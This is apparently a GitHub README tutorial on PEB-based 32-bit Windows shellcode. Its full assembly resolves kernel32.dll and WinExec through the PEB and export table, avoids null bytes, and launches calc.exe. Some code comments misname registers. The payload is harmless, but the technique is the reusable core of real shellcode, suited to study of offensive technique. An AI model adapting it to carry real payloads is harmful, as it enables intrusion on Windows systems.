 ### PEB-Based Windows Shellcode
The classic way of making Windows shellcode which involves hardcoding the address of a specific function to run is not robust and reliable shellcode that could not run on every Windows versions.

Process Environment Block (PEB) is a structure that is used by the operating system. It contains information about the current OS so it could be used to determine and enumerate its current libraries address such as the well-known library kernel32.dll and ntdll.dll.

A demonstartion of PEB-Based Shellcode that enumerate through PEB structure to extract kernel32.dll address and using the that address to enumerate again for the function of interest which is WinExec to run calculator.

```asm
[BITS 32]

start:
		push eax
		push ebx
		push ecx
		push edx
		push esi
		push edi
		push ebp

		
		push ebp
		mov ebp, esp
		sub esp, 0x18

		; Pushing WinExec string with smuggling null-byte trick 
		xor esi, esi
		mov esi, 0x01646679
		sub esi, 0x01010101
		push esi
		push 0x456e6957
		mov [ebp - 0x4], esp 	   ; "WinExec\x00"

		; Finding kernel32.dll base address
		xor esi, esi
		mov ebx, [fs:0x30]              ; Store PEB address to ebx
		mov ebx, [ebx + 0x0c]           ; Store PEB_LDR_DATA address to ebx 
		mov ebx, [ebx + 0x14]           ; Store InMemoryOrderModuleList address to ebx 
		mov ebx, [ebx]                  ; Get ntdll.dll entry
		mov ebx, [ebx]                  ; Get kernel32.dll entry
		mov ebx, [ebx + 0x10]           ; Get kernel32.dll base address
		mov [ebp - 0x8], ebx            ; kernel32.dll base address is now stored in [ebp - 0x8] 

		; Finding WinExec Address
		; Relative Virtual Address (RVA)
		mov eax, [ebx + 0x3c]      ; RVA of PE signature
		add eax, ebx               ; Address of PE signature
		
		mov eax, [eax + 0x78]      ; RVA of Export Table
		add eax, ebx               ; Address of Export Table
		
		mov ecx, [eax + 0x24]      ; RVA of Ordinal Table
		add ecx, ebx               ; Address of Ordinal Table
		mov [ebp - 0x0c], ecx
		
		mov edi, [eax + 0x20]      ; RVA of Name Pointer Table
		add edi, ebx               ; Address of Name Pointer Table
		mov [ebp - 0x10], edi
		
		mov edx, [eax + 0x1c]      ; RVA of Address Table
		add edx, ebx               ; Address of Address Table
		mov [ebp - 0x14], edx
		
		mov edx, [eax + 0x14]      ; Number of exported functions
		xor eax, eax               ; counter = 0

.loop:
		mov edi, [ebp - 0x10]      ; esi = Address of Name Pointer Table
		mov esi, [ebp - 0x4]       ; edx = "WindExec\x00"
		xor ecx, ecx

		cld                        ; set DF=0 process strings from left to right
		mov edi, [edi + eax * 0x4] ; Entries in the Name Pointer Table are 4 bytes long

		add edi, ebx               ; esi = address of string = base address + RVA nth entry
		add cx, 0x8                ; Length of strings to compare
		repe cmpsb                 ; Compare the first 8 bytes of strings in esi and edi registers. ZF=1 if equal, ZF=0 if not

		jz start.found

		inc eax                    ; counter++
		cmp eax, edx               ; check if last function is reached
		jb start.loop              ; if not the last -> loop

		add esp, 0x26
		jmp start.end              ; if function is not found, jump to end

.found:
		; counter eax holds the position of WinExec
		mov ecx, [ebp - 0x0c]      ; Address of Ordinal Table
		mov edx, [ebp - 0x14]      ; Address of Address Table
		
		mov ax, [ecx + eax * 0x2]  ; ax = ordinal number = ecx + (counter * 2)
		mov eax, [edx + eax * 0x4] ; eax = RVA of function = edx + (ordinal * 4)
		add eax, ebx               ; eax = address of WinExec
		                           ; kernel32.dll base address + RVA of WinExec
		xor edx, edx
		push edx
		push 0x6578652e
		push 0x636c6163
		push 0x5c32336d
		push 0x65747379
		push 0x535c7377
		push 0x6f646e69
		push 0x575c3a43
		mov esi, esp     		   ; esi = "C:\Windows\System32\calc.exe"
		
		push 0x10          		   ; window state SW_SHOWDEFAULT
		push esi         		   ; "C:\Windows\System32\calc.exe"
		call eax         		   ; Call WinExec
		add esp, 0x46     		   ; clear the stack

.end:
		pop ebp
		pop edi
		pop esi
		pop edx
		pop ecx
		pop ebx
		pop eax
		ret

```

### Assembling it and get object file
![](img/assembling.png)
### Extract opcodes
![](img/opcodes.png)
### Paste it on shellcode tester code
![](img/shellcode_tester.png)
### Calculate will pop up after execute the executable
![](img/poc.png)
